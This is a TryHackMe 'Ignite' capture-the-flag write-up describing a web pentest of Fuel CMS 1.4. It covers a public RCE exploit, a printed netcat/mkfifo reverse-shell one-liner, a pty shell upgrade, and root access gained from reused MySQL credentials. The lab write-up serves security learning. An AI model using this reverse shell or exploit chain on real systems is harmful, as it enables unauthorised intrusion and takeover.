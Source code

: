 **<p align="center">TryHackMe: Ignite</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Ignite%20Image%201.png" alt="image alt" width="180" />
</p>

[![Day 11 & 12 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2011%20%26%2012%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting 

**Started:** 7/2/2025

**Completed:** 7/3/2025

🎯**Objective:** This penetration testing lab is to assess the security posture of a new start-up's web server, which is reportedly experiencing a few issues. The goal is to identify and exploit existing vulnerabilities within the web application to uncover two hidden flags.

<p align="center">+++++++++</p>

Launching the target machine, completing an Nmap scan is the first step to enumerating a target IP `10.10.188.239`.

The scan revealed 1 port being visibly open: Port 80, Service HTTP, Version Apache httpd 2.4.18 ((Ubuntu)).

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%201.png)

Since the Nmap scan confirmed that an HTTP service is running on the target machine, I proceeded to navigate to the IP address in my browser to begin exploring the web application.

Accessing the IP address directed me to the Fuel CMS homepage, which displayed the version number as 1.4.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%202.png)

According to research, **Fuel CMS** is an open-source content management system built on the CodeIgniter PHP framework. It provides a user-friendly interface for content managers while also offering developers the flexibility to customize the application's behavior behind the scenes. In essence, it's both a CMS and a development platform.

Notably, Fuel CMS v1.4 is relatively outdated and is known to contain vulnerabilities, including Remote Code Execution (RCE), making it a strong candidate for exploitation in this challenge.

*(Note: My VM timed out during the process, so I had to relaunch the target machine.)*

While exploring the web server, I checked the `robots.txt` file and found a disallowed path: `/fuel/`. This suggests that the `/fuel/` directory may contain a sensitive interface, likely the CMS backend or admin panel.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%203.png)

Using Searchsploit, I located a known Remote Code Execution exploit for Fuel CMS:
- `linux/webapps/47138.py`

This exploit specifically targets vulnerabilities within the `/fuel/` directory.

I customized the Python code by removing the Burp Suite proxy settings, as they weren’t needed for this setup.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%204.png)

Running the customized exploit successfully launched a non-interactive shell on the target machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%205.png)

To upgrade this shell to an interactive one, I opened a Netcat listener on port `5555` and used a reverse shell payload generated from the Reverse Shell Generator website.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.188.239 5555 > /tmp/f

```

This command quietly creates a named pipe (`mkfifo`) to establish a temporary communication tunnel between the attacker and target, allowing for interactive shell access.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%206.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%207.png)

While testing commands through the non-interactive shell, I encountered the following error:
```
sudo: no tty present and no askpass program specified

```
This hinted that `www-data` might have sudo privileges, but was being prevented from executing commands due to the lack of a proper TTY. In other words, the system couldn’t prompt for a password in this shell type.
To resolve this, I ran the following command to spawn an interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```
This successfully upgraded the shell and allowed smoother command interaction.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%208.png)

Continuing my enumeration, I discovered a file named `database.php` located at:
```
/var/www/html/fuel/application/config/database.php

```
Inside, I found plaintext MySQL root credentials, stored in cleartext within the configuration.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%209.png)

Using the retrieved credentials, I successfully attempted to escalate privileges by switching users. The credentials were reused at the system level, allowing me to gain full root access to the machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2010.png)

With root access established, I was able to locate both challenge flags:
- **User flag:** Found in the home directory
- **Root flag:** Located in `/root`

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2011.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2012.png)

**Lessons Learned:**

This lab reinforced the value of trusting my instincts and staying patient through the troubleshooting process. I initially spent several hours trying to get the exploit to work, and although I had to start over, it allowed me to retrace my steps with confidence and complete the entire process in minutes the next day.

From recognizing an outdated CMS, to exploiting it with an RCE, and finally escalating to root through a reused credential, each step reminded me how small misconfigurations can create major security risks. It also showed me that I’m developing a sharper eye for enumeration and privilege escalation paths, the progress felt incredibly rewarding.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers
directly. Instead, I’ve documented my full process to support both others and myself in
understanding the vulnerability.

**Resources**:
- [TryHackMe's Ignite Room](https://tryhackme.com/room/ignite)
